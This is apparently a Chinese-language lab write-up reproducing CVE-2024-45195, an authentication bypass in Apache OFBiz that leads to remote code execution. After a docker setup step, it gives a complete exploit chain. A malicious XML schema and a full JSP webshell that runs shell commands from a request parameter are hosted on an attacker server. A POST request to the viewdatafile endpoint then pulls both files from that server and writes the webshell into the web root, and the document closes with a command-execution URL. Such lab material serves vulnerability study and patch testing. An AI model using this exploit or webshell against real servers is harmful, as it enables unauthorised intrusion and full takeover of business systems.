


# Apache OFBiz 身份验证绕过导致远程代码执行（CVE-2024-45195）

Apache OFBiz是一个开源企业资源规划（ERP）系统。它提供了一套企业应用程序，集成并自动化企业的许多业务流程。

该漏洞是由于之前漏洞（CVE-2024-32113、CVE-2024-36104和CVE-2024-38856）未完全修复所导致。在Apache OFBiz版本18.12.16之前，开发人员对这些先前的问题进行了修复，但控制器视图地图状态不同步的根本问题仍然存在。这使得攻击者能够绕过身份验证并访问敏感的仅限管理员的视图地图。

参考链接：

- <https://github.com/apache/ofbiz-framework/commit/ab78769c2d>
- <https://github.com/apache/ofbiz-plugins/commit/8b95fe6fa>
- <https://www.rapid7.com/blog/post/2024/09/05/cve-2024-45195-apache-ofbiz-unauthenticated-remote-code-execution-fixed/>

## 漏洞环境

执行以下命令启动一个 Apache OfBiz 18.12.15服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

在复现此漏洞之前，我们需要在自己控制的服务器上部署恶意XML文件和CSV文件。

第一个文件是`rceschema.xml`，此XML schema文件定义了恶意 JSP 的结构：

```xml
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
    <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
        <record name="rceentry" limit="many">
            <field name="jsp" type="String" length="605" position="0"></field>
        </record>
    </data-file>
</data-files>
```

第二个文件是`rcereport.csv`，此CSV文件包含实际的JSP代码：

```jsp
<%@ page import='java.io.*' %><%@ page import='java.util.*' %><h1>Ahoy!</h1><br><% String getcmd = request.getParameter("cmd"); if (getcmd != null) { out.println("Command: " + getcmd + "<br>"); String cmd1 = "/bin/sh"; String cmd2 = "-c"; String cmd3 = getcmd; String[] cmd = new String[3]; cmd[0] = cmd1; cmd[1] = cmd2; cmd[2] = cmd3; Process p = Runtime.getRuntime().exec(cmd); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine();}} %>,
```

然后发送以下请求：

```
POST /webtools/control/forgotPassword/viewdatafile HTTP/1.1
Host: target:8443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 241
Content-Type: application/x-www-form-urlencoded

DATAFILE_LOCATION=http://attacker/rcereport.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://attacker/rceschema.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce
```



该请求通过利用viewdatafile视图地图将恶意JSP文件写入Web根目录，从而利用了该漏洞实现远程代码执行。

在JSP webshell被写入后，通过`https://localhost:8443/accounting/index.jsp?cmd=id`即可执行任意命令：


